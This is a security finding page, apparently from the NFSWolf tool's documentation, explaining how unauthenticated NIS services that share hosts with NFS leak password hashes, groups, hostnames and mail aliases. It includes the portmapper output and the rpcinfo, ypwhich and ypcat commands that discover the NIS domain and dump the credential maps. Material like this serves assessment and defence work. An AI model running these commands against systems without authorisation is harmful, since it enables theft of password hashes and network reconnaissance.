

repository: StrongWind1/NFSWolf · page: security/info-disclosure/F-5.3-nis-credential-extraction/index.html · generator: mkdocs · copyright: Copyright © 2025 - 2026 StrongWind1

# F-5.3: NIS Credential Extraction via Co-hosted RPC

## Classification

- **Severity**: High
- **CVSS Vector**: Network / Low Complexity / No Auth Required
- **Affected Versions**: Systems running NIS (ypserv/ypbind) alongside NFS
- **Prerequisite**: NIS domain name discoverable; ypserv registered in portmapper

## Summary

NIS (Network Information Service, formerly YP "Yellow Pages") is an RPC-based directory service frequently co-hosted on the same machines as NFS. When portmapper enumeration reveals ypbind/ypserv, an attacker who can determine the NIS domain name can extract password hashes, group memberships, hostnames, and mail aliases — all without any authentication.

NIS is discovered through the same portmapper (port 111) scan that finds NFS, making it a natural lateral finding during NFS assessments.

## Technical detail

### Discovery

NIS services appear in portmapper output alongside NFS/mountd/NLM:

```
program  vers  proto   port  service
100004    2    tcp    798   ypserv    # NIS server
100004    2    udp    800   ypserv
100007    2    tcp    809   ypbind    # NIS client binding
100007    2    udp    813   ypbind
```

### Domain name enumeration

The NIS domain name is required for queries. It can be obtained via:

```bash
# If you have local access or a shell:
domainname

# Via RPCBind (some implementations leak it):
rpcinfo -p target

# Brute-force with ypwhich:
ypwhich -d <guessed-domain> target
```

### Credential extraction

Once the domain name is known, `ypcat` dumps all NIS maps without authentication:

```bash
# Dump password hashes (equivalent to /etc/passwd + /etc/shadow combined)
ypcat -d <domain> -h <target> passwd.byname

# Dump group memberships
ypcat -d <domain> -h <target> group.byname

# Dump host table
ypcat -d <domain> -h <target> hosts.byname

# Dump mail aliases
ypcat -d <domain> -h <target> mail.aliases
```

### Available NIS maps

| Master File | Maps | Content |
|-------------|------|---------|
| /etc/passwd | passwd.byname, passwd.byuid | User credentials (may include hashes) |
| /etc/group | group.byname, group.bygid | Group memberships |
| /etc/hosts | hosts.byname, hosts.byaddr | Hostnames and IPs |
| /usr/lib/aliases | mail.aliases | Mail routing |
